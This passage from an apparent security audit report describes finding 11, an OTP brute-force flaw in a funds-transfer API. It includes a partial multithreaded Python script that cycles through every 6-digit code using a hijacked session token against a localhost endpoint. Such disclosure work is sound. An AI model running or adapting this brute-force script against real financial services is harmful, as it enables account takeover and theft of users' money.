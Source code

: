 ### 11. OTP Bruteforce Vulnerability

An additional critical issue affecting the funds transfer functionality is the ability to **bruteforce the OTP** without any restriction on the number of attempts. This flaw enables an attacker—**after hijacking a valid user session**—to systematically try all possible 6-digit OTPs until the correct one is found.

Normally, OTP verification systems enforce strict attempt limits (e.g., 3–5 tries) and expiry times to mitigate such attacks. However, in this application, the OTP mechanism lacks proper enforcement of retry limits for `otp_type = 3` (fund transfer). Combined with the absence of rate limiting or IP blacklisting, this exposes the endpoint to brute-force attacks.

The following multithreaded Python script demonstrates how an attacker could exploit this flaw to discover a valid OTP in real time:

```python
import requests
import json
import time
import threading

# === Configuration ===
url = "http://localhost/api/otp/verify"
token = "[JWT TOKEN HERE]"  # Replace with the actual JWT or session token

headers = {
    "Content-Type": "application/json"
}

# === Request Builder ===
def build_request(otp):
    return {
        "requestBody": {
            "token": token,
            "timestamp": int(time.time()),
            "device": {
                "deviceid": "UHDGGF735SVHFVSX",
                "os": "ios",
                "host": "lucideustech.com"
            },
            "data": {
                "otp": otp
            }
        }
    }

# === Brute-force Logic ===
found_flag = threading.Event()  # Shared flag to stop all threads once OTP is found

def brute_force_range(start, end):
    for otp_int in range(start, end + 1):
        if found_flag.is_set():
            break  # Stop if another thread succeeded

        otp_str = f"{otp_int:06d}"  # Format as 6-digit string
        req = build_request(otp_str)

        try:
            response = requests.post(url, headers=headers, json=req)
        except requests.RequestException as e:
            print(f"[{otp_str}] Request error: {e}")
            continue

        if response.status_code != 200:
            print(f"[{otp_str}] HTTP error: {response.status_code}")
```
